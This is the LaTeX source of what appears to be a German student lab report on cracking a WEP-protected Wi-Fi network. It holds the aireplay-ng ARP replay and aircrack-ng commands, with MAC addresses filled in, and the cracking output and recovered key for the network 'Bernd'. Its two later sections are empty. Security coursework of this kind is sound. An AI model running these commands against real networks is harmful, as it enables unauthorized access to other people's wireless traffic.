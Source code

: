 \documentclass[10pt,a4paper]{article}
\begin{document}
Um die Menge an beobachteten Packeten zu erhöhen fuhren wir eine ARP Replayattacke. Dabei wird jedes abgefangene Packet wieder in das Netzwerk eingespielt.
\begin{verbatim}
aireplay-ng -3 -b 64:70:02:1A:B1:81 -h 00:C0:CA:55:54:5F wlan1
\end{verbatim}
Nach circa 10 Minuten Packete mitschneiden knackten wir auf Basis der mitgeschnittenen Packete den WEP PreSharedKey:
\begin{verbatim}
aircrack-ng -b 64:70:02:1A:B1:81 output*.cap
\end{verbatim}
\begin{tiny}
\begin{verbatim}
                                                                 [00:00:00] Tested 835 keys (got 93526 IVs)

   KB    depth   byte(vote)
    0    0/ 25   71(122112) F5(107008) 3B(105216) 1B(103680) 94(103424) 90(103168) 3A(102656) A6(102656) 59(102400) CA(102400) 45(102144) 8B(101376) 9B(101120) 56(100864) 
    1    1/  1   E6(108288) 64(106496) 48(105472) 08(104960) 93(103936) 16(103424) 6B(103168) 92(102912) AA(102912) 74(102656) 56(102400) D9(102400) 9A(102144) 9F(102144) 
    2    0/  1   F9(131328) EF(108288) D0(107264) DF(107264) D2(105984) D9(105216) 02(104448) 7C(103936) E2(103168) 12(102912) C6(102912) 1A(102144) AB(102144) EA(102144) 
    3    0/  1   47(136960) 35(107776) 6B(106240) 74(106240) A2(106240) 08(105984) 70(104960) A3(104192) BE(103168) 22(102656) 31(102656) 87(102656) A8(102656) E8(102656) 
    4   14/  4   50(102144) 93(101632) 40(101120) B5(100864) 17(100608) 44(100608) 5B(100352) 75(100352) 18(100096) A3(100096) 55(99584) E3(99584) 26(99328) 65(99328) 

     KEY FOUND! [ 71:32:56:4E:4B:7A:31:47:73:52:71:59:41 ] (ASCII: q2VNKz1GsRqYA )
	Decrypted correctly: 100%
\end{verbatim}
\end{tiny}
Der verwendete WEP Key im Netzwerk Bernd lautet also: \texttt{q2VNKz1GsRqYA}.

\section{Aufgabe 2}

\section{Aufgabe 3}
\end{document}
